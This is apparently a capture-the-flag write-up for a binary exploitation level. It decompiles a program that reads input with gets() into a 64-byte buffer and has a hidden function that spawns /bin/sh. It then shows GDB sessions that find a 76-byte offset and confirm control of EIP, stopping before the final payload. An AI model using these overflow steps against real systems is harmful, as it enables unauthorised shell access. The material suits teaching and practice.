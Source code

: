 ```c
[         19        ]             
+-------------------+ +8          
[          1        ]               
+-------------------+ +4          
[     "/bin/sh"     ]   <---  after caling system / before : will be  "Good... Wait what?\n"  
+-------------------+ <---ESP
```
### Code Prediction 
```c
function run () {

    fwrite("Good... Wait what?\n", 1, 19, stdout);

    system("/bin/sh");

    return ;

}
int main(int argc(ebp+0x8), char **argv(ebp+12)) {

    const buffer[64];

    gets(buffer);

    return;
}
```
### Process of the Exploit

- lets find the offset where the program will buffer overflow :
- using the [online tool](https://wiremask.eu/tools/buffer-overflow-pattern-generator/)
- we get the pattern generated there and send it to programm in GDB
`Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A` (length : 100)
```c
Starting program: /home/user/level1/level1 <<< "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A"

Program received signal SIGSEGV, Segmentation fault.
Error while running hook_stop:
No function contains program counter for selected frame.
0x63413563 in ?? ()
(gdb)
```
- we can notice that the program segfaulted, showing that `0x63413563` is unknown , which says that the EIP address is overwritten by `0x63413563`
- ok good, lets take address back to the online tool and see what it says
- by entering the address in the __Register value__ input the offset will display __76__
- ok , the buffer overflow offset is : __76__
- lets genereate another costum pattern to have a clear idea about the exploit
`python -c 'print "A" * 76 + "BBBB" '`
- lets try it in gdb , its should segfault in 0x42424242:
```c
(gdb) run <<< $(python -c 'print "A" * 76 + "BBBB" ')
Starting program: /home/user/level1/level1 <<< $(python -c 'print "A" * 76 + "BBBB" ')

Program received signal SIGSEGV, Segmentation fault.
Error while running hook_stop:
No function contains program counter for selected frame.
0x42424242 in ?? ()
(gdb)
```
- exactly as expected